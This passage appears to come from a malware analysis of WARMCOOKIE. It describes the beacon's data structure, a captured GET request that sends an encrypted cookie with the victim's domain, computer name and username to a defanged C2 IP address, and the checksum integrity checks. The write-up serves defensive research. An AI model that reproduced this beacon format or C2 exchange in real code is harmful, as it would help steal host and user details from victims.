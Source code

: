 ```cpp
struct initial_request
{
    int checksum_c2_message_data;
    int checksum_volume_mutex;
    int checksum_computer_name_username;
    request_type request_type;
    os_info os_ver;
    int offset_to_dns_domain;
    int size_base64_dns_domain;
    int offset_to_base64_computer_name;
    int size_base64_computer_name;
    int offset_to_base64_username;
    int size_base64_username;
    char base64_dns_domain[]; // Variable-length array
    char base64_username[]; // Variable-length array
    char base64_computer_name[]; // Variable-length array 
};
```

The first request to the C2 server is sent through a GET request using User Agent: `Mozilla / 4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1;.NET CLR 1.0.3705`.

```curl
GET http://185.49.69[.]41/ HTTP/1.1
Cookie: x41OYTpmEwUUKm2AvnkS2onu1XqjP6shVvosIXkAD957a9RplEGFsUjR8f/lP1O8EERtf+idl0bimsKh8mRA7+dL0Yk09SwgTUKBu9WEK4RwjhkYuxd2JGXxhlA=
User-Agent: Mozilla / 4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1;.NET CLR 1.0.3705)
Host: 185.49.69[.]41
Connection: Keep-Alive
Pragma: no-cache
```

Below is the CyberChef recipe of the HTTP cookie parameter decrypted from the first request, followed by a legend of the fields:  

![Decryption of HTTP cookie via CyberChef](/assets/images/dipping-into-danger/image24.png "Decryption of HTTP cookie via CyberChef")

![Decryption of HTTP cookie parameters via ImHex](/assets/images/dipping-into-danger/image20.png "Decryption of HTTP cookie parameters via ImHex")

WARMCOOKIE inserts a few integrity checks by generating hashes using the previously described checksum function. For example, the data in the decrypted HTTP cookie parameter from the 4th byte to the end is hashed and placed at the beginning (offset 0). Using the example above, this checksum value is `0xe51387e9`

Before the malware can receive instructions, integrity checks are also used to verify the incoming response from the C2 server. In this scenario, the C2 server produces the expected checksum for the data sent to the victim machine. This is located in the first four bytes of the request.
 
![Checksum verification from incoming server request](/assets/images/dipping-into-danger/image7.png "Checksum verification from incoming server request")

Below is a demonstration of this integrity check where the request data’s hash is `0x50d26cc3`.

![Integrity check via CyberChef](/assets/images/dipping-into-danger/image39.png "Integrity check via CyberChef")
